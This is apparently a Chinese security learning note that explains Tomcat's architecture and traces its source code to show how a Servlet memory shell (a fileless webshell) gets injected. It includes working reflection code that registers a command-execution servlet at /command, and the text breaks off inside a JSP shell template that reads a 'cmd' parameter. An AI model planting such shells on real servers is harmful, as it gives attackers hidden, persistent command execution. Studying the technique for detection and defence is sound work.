





Tomcat
- date
- 2023-09-10 12:08:13
http://scassis.cn/blog/2018/12/15/Java-Web-learning-note-16/
https://www.yuque.com/tianxiadamutou/zcfd4v
基础知识

- Server：服务器，一个 Tomcat 启动后就是一个服务器感觉可以类比为 nginx 服务器这种的一个性质
- Service：服务，就是 Connector 连接器和 Engine 引擎的组合
- Connector：连接器，用于处理连接和并发，通常包括两种方式 HTTP 和 AJP。AJP一般用于搭配 Apache 服务器 。
- Engine：引擎，所有的请求都是通过处理引擎处理的
- Host：虚拟主机，用于进行请求的映射处理。每个虚拟主机可以看做独立的请求文件。
- Realm：用于配置安全管理角色，通常读取 tomcat-uesrs.xml 进行验证
- Context：web 应用程序的上下文环境，包括应用的资源、Servlet 映射、会话管理等，可以表示为一个 web 应用程序。
- Wrapper：负责管理 Servlet，其封装了 Servlet 的生命周期和请求处理细节
请求的处理流程：

从 tomcat 的配置文件 server.xml 来看它的结构：
| <?xml version="1.0" encoding="UTF-8"?>
<!-- Tomcat 服务器 -->
<Server port="8005" shutdown="SHUTDOWN">
<!-- 多个监听器 -->
<Listener className="org.apache.catalina.startup.VersionLoggerListener" />
<Listener className="org.apache.catalina.core.AprLifecycleListener" SSLEngine="on" />
<Listener className="org.apache.catalina.core.JreMemoryLeakPreventionListener" />
<Listener className="org.apache.catalina.mbeans.GlobalResourcesLifecycleListener" />
<Listener className="org.apache.catalina.core.ThreadLocalLeakPreventionListener" />
<!-- -->
<!-- 服务 -->
<Service name="Catalina">
<!-- 连接器 => 8080 端口的 HTTP 协议的连接 -->
<Connector port="8080" protocol="HTTP/1.1"
connectionTimeout="20000"
redirectPort="8443" />
<!-- 引擎 -->
<Engine name="Catalina" defaultHost="localhost">
<Realm className="org.apache.catalina.realm.LockOutRealm">
<Realm className="org.apache.catalina.realm.UserDatabaseRealm"
resourceName="UserDatabase"/>
</Realm>
<!-- 虚拟主机 -->
<Host name="localhost" appBase="webapps"
unpackWARs="true" autoDeploy="true">
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
prefix="localhost_access_log" suffix=".txt"
pattern="%h %l %u %t "%r" %s %b" />
</Host>
</Engine>
</Service>
</Server>
|
Host 虚拟主机中是 Context 可以再看一下 context.xml，可以看到里面是 web.xml 也就是它的 web 程序的配置了：
| <Context>
<!-- 监控资源列表, 如果有变动就重新加载 -->
<WatchedResource>WEB-INF/web.xml</WatchedResource>
<WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>
</Context>
|
从上面的图中可以看到 Context 上下文中是 Wrapper，这里介绍一下 Wrapper：
Wrapper 主要负责管理 Servlet，每个 Wrapper 实例对应一个 Servlet，它处理与 Servlet 相关的请求和响应，其封装了 Servlet 的生命周期和请求处理细节。它其实就是 Tomcat 用于管理 Servlet 实例的。
而 Servlet 是 Server Applet 的缩写，译为“服务器端小程序”，是一种使用 Java 语言来开发动态网站的技术。
上面说的 Servlet 是一种技术，也就是说它其实并不是 Tomcat 的独有的，Tomcat 只是 Servlet 的一个容器，除了 Tomcat 之外还有 Jetty、Spring 等都是 Servlet 的容器，而 Java Servlet 就是 Java 中用于处理 web 请求的一个接口。


当一个Web应用程序被部署时，Tomcat 会根据 web.xml 中的 定义来创建相应的 Servlet 类实例，并为每个 Servlet 创建一个 Wrapper。这些 Wrapper 会根据 web.xml 中的配置自动关联到对应的Servlet。
| <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
version="3.1">
<!-- 应用的显示名称 -->
<display-name>My Web Application</display-name>
<!-- 应用的描述 -->
<description>A basic web application example</description>
<!-- 配置 Servlet -->
<servlet>
<servlet-name>HelloWorldServlet</servlet-name>
<servlet-class>com.example.HelloWorldServlet</servlet-class>
</servlet>
<!-- 映射 Servlet 到 URL -->
<servlet-mapping>
<servlet-name>HelloWorldServlet</servlet-name>
<url-pattern>/hello</url-pattern>
</servlet-mapping>
<!-- 配置 Filter -->
<filter>
<filter-name>ExampleFilter</filter-name>
<filter-class>com.example.ExampleFilter</filter-class>
</filter>
<!-- 映射 Filter 到 URL -->
<filter-mapping>
<filter-name>ExampleFilter</filter-name>
<url-pattern>/*</url-pattern>
</filter-mapping>
<!-- 配置 Listener -->
<listener>
<listener-class>com.example.ContextListener</listener-class>
</listener>
<!-- 配置会话超时（以分钟为单位） -->
<session-config>
<session-timeout>15</session-timeout>
</session-config>
<!-- 配置MIME类型 -->
<mime-mapping>
<extension>html</extension>
<mime-type>text/html</mime-type>
</mime-mapping>
<!-- 配置错误页面 -->
<error-page>
<error-code>404</error-code>
<location>/error-404.html</location>
</error-page>
<!-- 配置资源的欢迎页面 -->
<welcome-file-list>
<welcome-file>index.html</welcome-file>
<welcome-file>index.htm</welcome-file>
<welcome-file>index.jsp</welcome-file>
</welcome-file-list>
<!-- 配置安全约束 -->
<security-constraint>
<web-resource-collection>
<web-resource-name>Protected Area</web-resource-name>
<url-pattern>/protected/*</url-pattern>
</web-resource-collection>
<auth-constraint>
<role-name>admin</role-name>
</auth-constraint>
</security-constraint>
<!-- 配置安全角色 -->
<security-role>
<role-name>admin</role-name>
</security-role>
</web-app>
|
Filter （ 过滤器 ）用于在请求到达Servlet之前或响应发送给客户端之后，对请求和响应进行预处理和后处理。
Listener（监听器）监听 Web 应用程序中的各种事件并做出响应的处理。
具体之前学习过 监听器和过滤器[^1] 。
servlet 内存马
代码分析
这里使用嵌入式 Tomcat 去运行项目：
pom.xml
| <dependency>
<groupId>org.apache.tomcat.embed</groupId>
<artifactId>tomcat-embed-core</artifactId>
<version>9.0.83</version>
<scope>compile</scope>
</dependency>
<dependency>
<groupId>org.apache.tomcat.embed</groupId>
<artifactId>tomcat-embed-jasper</artifactId>
<version>9.0.83</version>
<scope>compile</scope>
</dependency>
|
然后 Main.java：
| import org.apache.catalina.Context;
import org.apache.catalina.LifecycleException;
import org.apache.catalina.startup.Tomcat;
import java.io.File;
public class Main {
public static void main(String[] args) throws LifecycleException {
Tomcat tomcat = new Tomcat();
tomcat.getConnector();
Context context = tomcat.addWebapp("", new File(".").getAbsolutePath());
Tomcat.addServlet(context, "helloServlet", new demo());
context.addServletMappingDecoded("/hello", "helloServlet");
tomcat.start();
tomcat.getServer().await();
}
}
|
之后点进去 tomcat 相关的 class 中，下载源代码。
编写主函数：
| import org.apache.catalina.Context;
import org.apache.catalina.LifecycleException;
import org.apache.catalina.startup.Tomcat;
import java.io.File;
public class Main {
public static void main(String[] args) throws LifecycleException {
// Tomcat 服务器 => Server
Tomcat tomcat = new Tomcat();
// Connector 连接器
tomcat.getConnector();
// 创建了一个 Context 上下文 => web 应用程序的上下文环境，包括应用的资源、Servlet 映射、会话管理等，可以表示为一个 web 应用程序
Context context = tomcat.addWebapp("", new File(".").getAbsolutePath());
// 添加这个 Servlet
Tomcat.addServlet(context, "helloServlet", new demo());
// 添加这个 Servlet 的 url 映射
context.addServletMappingDecoded("/hello", "helloServlet");
// 启动
tomcat.start();
tomcat.getServer().await();
}
}
|
然后开始跟：
连接器：
| public Connector getConnector() {
// 获取 Service 就是上面说的 Connector 连接器和 Engine 引擎的组合
Service service = getService();
// 从 Service 中寻找连接器, 如果有的话就 OK
if (service.findConnectors().length > 0) {
return service.findConnectors()[0];
}
// The same as in standard Tomcat configuration.
// This creates an APR HTTP connector if AprLifecycleListener has been
// configured (created) and Tomcat Native library is available.
// Otherwise it creates a NIO HTTP connector.
// 创建 HTTP 协议的连接器
Connector connector = new Connector("HTTP/1.1");
// 设置端口
connector.setPort(port);
// 将连接器添加到 Service 中
service.addConnector(connector);
return connector;
}
|
然后看上下文：
| public Host getHost() {
// 引擎
Engine engine = getEngine();
if (engine.findChildren().length > 0) {
return (Host) engine.findChildren()[0];
}
// 创建一个 Standard 的 Host
Host host = new StandardHost();
// 设置 hostname
host.setName(hostname);
// 添加到引擎中 => 上面也介绍过引擎中可以有有多个虚拟主机
getEngine().addChild(host);
return host;
}
public Context addWebapp(String contextPath, String docBase) {
// 添加一个 web 应用
// getHost() 就是上面的虚拟主机
return addWebapp(getHost(), contextPath, docBase);
}
public Context addWebapp(Host host, String contextPath, String docBase) {
LifecycleListener listener = null;
try {
// 从 Host 中获取一个监听器
Class<?> clazz = Class.forName(getHost().getConfigClass());
listener = (LifecycleListener) clazz.getConstructor().newInstance();
} catch (ReflectiveOperationException e) {
// Wrap in IAE since we can't easily change the method signature to
// to throw the specific checked exceptions
throw new IllegalArgumentException(e);
}
// 继续跟进
return addWebapp(host, contextPath, docBase, listener);
}
// 创建了一个 StandardContext
private Context createContext(Host host, String url) {
String defaultContextClass = StandardContext.class.getName();
String contextClass = StandardContext.class.getName();
if (host == null) {
host = this.getHost();
}
if (host instanceof StandardHost) {
contextClass = ((StandardHost) host).getContextClass();
}
try {
if (defaultContextClass.equals(contextClass)) {
return new StandardContext();
} else {
return (Context) Class.forName(contextClass).getConstructor()
.newInstance();
}
} catch (ReflectiveOperationException | IllegalArgumentException | SecurityException e) {
throw new IllegalArgumentException(sm.getString("tomcat.noContextClass", contextClass, host, url), e);
}
}
public Context addWebapp(Host host, String contextPath, String docBase,
LifecycleListener config) {
silence(host, contextPath);
// 创建 StandardContext 上下文
Context ctx = createContext(host, contextPath);
ctx.setPath(contextPath);
ctx.setDocBase(docBase);
// 添加默认的 web.xml 到这个上下文中
if (addDefaultWebXmlToWebapp) {
ctx.addLifecycleListener(getDefaultWebXmlListener());
}
ctx.setConfigFile(getWebappConfigFile(docBase, contextPath));
ctx.addLifecycleListener(config);
if (addDefaultWebXmlToWebapp && (config instanceof ContextConfig)) {
// prevent it from looking ( if it finds one - it'll have dup error )
((ContextConfig) config).setDefaultWebXml(noDefaultWebXmlPath());
}
// 把这个上下文添加到这个虚拟主机中
if (host == null) {
getHost().addChild(ctx);
} else {
host.addChild(ctx);
}
return ctx;
}
public LifecycleListener getDefaultWebXmlListener() {
return new DefaultWebXmlListener();
}
public static class DefaultWebXmlListener implements LifecycleListener {
@Override
public void lifecycleEvent(LifecycleEvent event) {
if (Lifecycle.BEFORE_START_EVENT.equals(event.getType())) {
// 初始默认的 webapp
initWebappDefaults((Context) event.getLifecycle());
}
}
}
|
单独摘出来看：
| // 这里其实就是在处理上面展示的那个默认 web.xml
public static void initWebappDefaults(Context ctx) {
// Default servlet
// 添加 Servlet
Wrapper servlet = addServlet(
ctx, "default", "org.apache.catalina.servlets.DefaultServlet");
// 设置加载顺序, 数字越小越早加载, 1 就是最小的了
servlet.setLoadOnStartup(1);
// 表示可以被其他的 servlet 覆盖掉
servlet.setOverridable(true);
// JSP servlet (by class name - to avoid loading all deps)
servlet = addServlet(
ctx, "jsp", "org.apache.jasper.servlet.JspServlet");
// 初始化的参数
servlet.addInitParameter("fork", "false");
servlet.setLoadOnStartup(3);
servlet.setOverridable(true);
// Servlet mappings
// 在我们获取的 StandardContext 中添加关于这个 Servlet 的 url 映射
ctx.addServletMappingDecoded("/", "default");
ctx.addServletMappingDecoded("*.jsp", "jsp");
ctx.addServletMappingDecoded("*.jspx", "jsp");
// Sessions
ctx.setSessionTimeout(30);
// MIME type mappings
addDefaultMimeTypeMappings(ctx);
// Welcome files
ctx.addWelcomeFile("index.html");
ctx.addWelcomeFile("index.htm");
ctx.addWelcomeFile("index.jsp");
}
// 添加 servlet
public static Wrapper addServlet(Context ctx,
String servletName,
String servletClass) {
// will do class for name and set init params
// 创建一个 Wrapper 上面也说过就是 它处理与 Servlet 相关的请求和响应，其封装了 Servlet 的生命周期和请求处理细节
Wrapper sw = ctx.createWrapper();
if (sw == null) {
return null;
}
// 设置 servlet 的 class
sw.setServletClass(servletClass);
// 设置 servlet 的名字
sw.setName(servletName);
// 添加到上下文中
ctx.addChild(sw);
return sw;
}
// StandardContext 的 createWrapper
public Wrapper createWrapper() {
Wrapper wrapper = null;
if (wrapperClass != null) {
try {
wrapper = (Wrapper) wrapperClass.getConstructor().newInstance();
} catch (Throwable t) {
ExceptionUtils.handleThrowable(t);
log.error(sm.getString("standardContext.createWrapper.error"), t);
return null;
}
} else {
// 这里
wrapper = new StandardWrapper();
}
synchronized (wrapperLifecyclesLock) {
for (String wrapperLifecycle : wrapperLifecycles) {
try {
Class<?> clazz = Class.forName(wrapperLifecycle);
LifecycleListener listener = (LifecycleListener) clazz.getConstructor().newInstance();
wrapper.addLifecycleListener(listener);
} catch (Throwable t) {
ExceptionUtils.handleThrowable(t);
log.error(sm.getString("standardContext.createWrapper.listenerError"), t);
return null;
}
}
}
synchronized (wrapperListenersLock) {
for (String wrapperListener : wrapperListeners) {
try {
Class<?> clazz = Class.forName(wrapperListener);
ContainerListener listener = (ContainerListener) clazz.getConstructor().newInstance();
wrapper.addContainerListener(listener);
} catch (Throwable t) {
ExceptionUtils.handleThrowable(t);
log.error(sm.getString("standardContext.createWrapper.containerListenerError"), t);
return null;
}
}
}
return wrapper;
}
|
tomcat-embed-core 初始化的流程其实就完全符合我们上面的 Tomat 的架构。
这里整理一下和 Servlet 相关的：
- 创建 StandardContext 上下文 createContext(Host host, String url)
-
根据 Servlet 的名称和类创建一个 Wrapper addServlet(Context ctx,String servletName,String servletClass)
- Wrapper sw = ctx.createWrapper(); 创建一个 Wrapper => wrapper = new StandardWrapper()
- sw.setServletClass(servletClass); 设置 Servlet Class
- sw.setName(servletName); 设置 servlet 名称
- ctx.addChild(sw); 将 Wrapper 添加到上下文中
- servlet.setLoadOnStartup(1) 设置加载顺序, 数字越小越早加载, 1 就是最小的了
- 表示可以被其他的 servlet 覆盖掉 servlet.setOverridable(true);
- 将 StandardContext 这个上下文添加到虚拟机主机 Host 中 host.addChild(ctx);
这里写一个接口先去实现一下这个流程：
Main.java ：
| public class Main {
public static void main(String[] args) throws LifecycleException {
Tomcat tomcat = new Tomcat();
tomcat.getConnector();
Context context = tomcat.addWebapp("", new File(".").getAbsolutePath());
// 实现添加 servlet 的类
Tomcat.addServlet(context, "test", new test());
context.addServletMappingDecoded("/test", "test");
tomcat.start();
tomcat.getServer().await();
}
}
|
test 类：
| import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.core.StandardWrapper;
import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
public class test extends HttpServlet {
@Override
protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
try {
// 1. 获取 StandardContext
ServletContext servletContext = req.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
// 2. 创建一个 Wrapper
StandardWrapper sw = new StandardWrapper();
// 3. 设置 servlet 类名 => demo 时我们的恶意类
sw.setServletClass("demo");
// 4. 设置 servlet 名字
sw.setName("command");
// 5. 添加到上下文
standardContext.addChild(sw);
// 6. 处理映射
standardContext.addServletMappingDecoded("/command","command");
} catch ( Exception e ) {
e.printStackTrace();
}
}
}
|
然后访问 /test 后就可以在 /command 接口进行命令执行了。
现在有一个问题，为什么只需要 sw.setServletClass 这里只需要一个名字？
那我们使用 JSP 或者反序列化等方式实现这个流程的时候，只需要写我们这里的类名就可以了吗？这个就很不合理了，因为 JSP 运行的时候，JSP 是可以知道这个 Servlet 类是谁的，但是注入内存马后，Tomcat 是不知道这个 Servelt 是谁的，这要怎么办。
所以这里就在我们的 demo 恶意类这里打上断点，访问 /test 添加 servlet 然后访问 /command 具体的调用流程：
- demo servlet class
org.apache.catalina.core.DefaultInstanceManager:newInstance(String className)org.apache.catalina.core.StandardWrapper:loadServlet()org.apache.catalina.core.StandardWrapper:allocate()org.apache.catalina.core.StandardWrapperValve invoke(Request request, Response response)- .....
来到 loadServlet() 名字就是加载 Servlet：
| public synchronized Servlet loadServlet() throws ServletException {
// Nothing to do if we already have an instance or an instance pool
// 如果已经有实例了就直接返回
if (!singleThreadModel && (instance != null)) {
return instance;
}
Servlet servlet;
try {
InstanceManager instanceManager = ((StandardContext) getParent()).getInstanceManager();
try {
// 这里获取到 Servlet 实例, 根据类名去创建实例
servlet = (Servlet) instanceManager.newInstance(servletClass);
} catch (Throwable e) {
// ....
}
// Special handling for ContainerServlet instances
// Note: The InstanceManager checks if the application is permitted
// to load ContainerServlets
if (servlet instanceof ContainerServlet) {
((ContainerServlet) servlet).setWrapper(this);
}
classLoadTime = (int) (System.currentTimeMillis() - t1);
if (servlet instanceof SingleThreadModel) {
if (instancePool == null) {
instancePool = new Stack<>();
}
singleThreadModel = true;
}
// 初始化 servlet
initServlet(servlet);
// 事件,监听器
fireContainerEvent("load", this);
loadTime = System.currentTimeMillis() - t1;
} finally {
// .....
}
return servlet;
}
|
可以看到就是先判断有没有实例，有的话就直接返回，没有的话根据类名去创建。还是上面的问题，根据类名去注入内存马很明显不太可能，那就只有实例这里了。
看一下写入的地方就可以发现有一个 public void setServlet(Servlet servlet) 意味着我们可以直接调用，那么问题就解决了！

这样就可以了，直接给一个 Servlet 对象，然后后续 Tomcat 直接使用这个对象就行了。
| // 2. 创建一个 Wrapper
StandardWrapper sw = new StandardWrapper();
// 3. 设置 servlet 实例
sw.setServlet(new demo());
// 4. 设置 servlet 名字
sw.setName("command");
|
继续向下跟看一下initServlet(servlet) 是做什么的：
| private synchronized void initServlet(Servlet servlet) throws ServletException {
// 看下是否初始化过
if (instanceInitialized && !singleThreadModel) {
return;
}
// Call the initialization method of this servlet
try {
if (Globals.IS_SECURITY_ENABLED) {
//
}
} else {
// 调用了 servlet 的 init 方法
servlet.init(facade);
}
// 表示初始化过了
instanceInitialized = true;
}
// ****
|
然后是 fireContainerEvent
| public void fireContainerEvent(String type, Object data) {
if (listeners.size() < 1) {
return;
}
ContainerEvent event = new ContainerEvent(this, type, data);
// Note for each uses an iterator internally so this is safe
for (ContainerListener listener : listeners) {
listener.containerEvent(event);
}
}
|
继续向下 org.apache.catalina.core.StandardWrapperValve invoke(Request request, Response response) ：
| // Allocate a servlet instance to process this request
// 为这个请求分配一个 servlet 去处理
try {
if (!unavailable) {
servlet = wrapper.allocate();
}
// .....
}
// 请求
MessageBytes requestPathMB = request.getRequestPathMB();
DispatcherType dispatcherType = DispatcherType.REQUEST;
if (request.getDispatcherType() == DispatcherType.ASYNC) {
dispatcherType = DispatcherType.ASYNC;
}
request.setAttribute(Globals.DISPATCHER_TYPE_ATTR, dispatcherType);
request.setAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR, requestPathMB);
// Create the filter chain for this request
// 创建一个 filter 过滤器
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
// Call the filter chain for this request
// NOTE: This also calls the servlet's service() method
// 处理过滤器链和调用 servlet 的 service() 方法
Container container = this.container;
try {
if ((servlet != null) && (filterChain != null)) {
// ....
// 调用 doFilter 函数
filterChain.doFilter(request.getRequest(), response.getResponse());
}
} finally {
// Release the filter chain (if any) for this request
// 释放过滤链
if (filterChain != null) {
filterChain.release();
}
// 释放已分配的servlet实例
try {
if (servlet != null) {
wrapper.deallocate(servlet);
}
} catch (Throwable e) {
}
|
跟进 filterChain.doFilter
| public void doFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
if (Globals.IS_SECURITY_ENABLED) {
final ServletRequest req = request;
final ServletResponse res = response;
try {
// ....
}
} else {
internalDoFilter(request, response);
}
}
private void internalDoFilter(ServletRequest request, ServletResponse response)
throws IOException, ServletException {
// Call the next filter if there is one
// 调用过滤器
if (pos < n) {
ApplicationFilterConfig filterConfig = filters[pos++];
try {
// 拿到 Filter
Filter filter = filterConfig.getFilter();
if (request.isAsyncSupported() &&
"false".equalsIgnoreCase(filterConfig.getFilterDef().getAsyncSupported())) {
request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
}
if (Globals.IS_SECURITY_ENABLED) {
final ServletRequest req = request;
final ServletResponse res = response;
Principal principal = ((HttpServletRequest) req).getUserPrincipal();
Object[] args = new Object[] { req, res, this };
SecurityUtil.doAsPrivilege("doFilter", filter, classType, args, principal);
} else {
// 调用过滤器的 doFilter 方法
filter.doFilter(request, response, this);
}
}
// ***** return ....
}
// We fell off the end of the chain -- call the servlet instance
// 通过过滤器就调用 servlet 的 service 方法
try {
if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
lastServicedRequest.set(request);
lastServicedResponse.set(response);
}
if (request.isAsyncSupported() && !servletSupportsAsync) {
request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
}
// Use potentially wrapped request from this point
if ((request instanceof HttpServletRequest) && (response instanceof HttpServletResponse) &&
Globals.IS_SECURITY_ENABLED) {
final ServletRequest req = request;
final ServletResponse res = response;
Principal principal = ((HttpServletRequest) req).getUserPrincipal();
Object[] args = new Object[] { req, res };
SecurityUtil.doAsPrivilege("service", servlet, classTypeUsedInService, args, principal);
} else {
// 调用 service 方法
servlet.service(request, response);
}
}
// .....
}
|
service 方法就是根据请求方法去调用不同的处理函数：
| protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
// 请求方法
String method = req.getMethod();
if (method.equals(METHOD_GET)) {
// ....
doGet(req, resp);
// ....
} else if (method.equals(METHOD_HEAD)) {
long lastModified = getLastModified(req);
maybeSetLastModified(resp, lastModified);
doHead(req, resp);
} else if (method.equals(METHOD_POST)) {
doPost(req, resp);
} else if (method.equals(METHOD_PUT)) {
doPut(req, resp);
} else if (method.equals(METHOD_DELETE)) {
doDelete(req, resp);
} else if (method.equals(METHOD_OPTIONS)) {
doOptions(req, resp);
} else if (method.equals(METHOD_TRACE)) {
doTrace(req, resp);
} else {
//
// Note that this means NO servlet supports whatever
// method was requested, anywhere on this server.
//
String errMsg = lStrings.getString("http.method_not_implemented");
Object[] errArgs = new Object[1];
errArgs[0] = method;
errMsg = MessageFormat.format(errMsg, errArgs);
resp.sendError(HttpServletResponse.SC_NOT_IMPLEMENTED, errMsg);
}
}
|
内存马实现
Servlet 内存马注册流程：
- 创建 StandardContext 上下文 createContext(Host host, String url)
-
根据 Servlet 的名称和类创建一个 Wrapper addServlet(Context ctx,String servletName,String servletClass)
- Wrapper sw = ctx.createWrapper(); 创建一个 Wrapper => wrapper = new StandardWrapper()
- sw.setServlet(servlet); 设置 Servlet 对象
- sw.setName(servletName); 设置 servlet 名称
- ctx.addChild(sw); 将 Wrapper 添加到上下文中
- servlet.setLoadOnStartup(1) 设置加载顺序, 数字越小越早加载, 1 就是最小的了，但是这里的加载顺序其实是启动的时候，这里我们已经设置好了 Servlet 了，没有必要在意
- 表示可以被其他的 servlet 覆盖掉 servlet.setOverridable(true);
- 将 StandardContext 这个上下文添加到虚拟机主机 Host 中 host.addChild(ctx);
JSP 中的 <% %> 中是可以执行 Java 代码的，所以可以仿照上面的直接写了。
获取 StandardContext 的方式：
| // 方式 1
ServletContext servletContext = request.getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
// 方式 2
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext standardContext = (StandardContext) req.getContext();
|
整体如下：
| <%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%
// 命令执行 Servlet
HttpServlet servlet = new HttpServlet() {
@Override
protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
if (request.getParameter("cmd") != null) {
boolean isLinux = true;
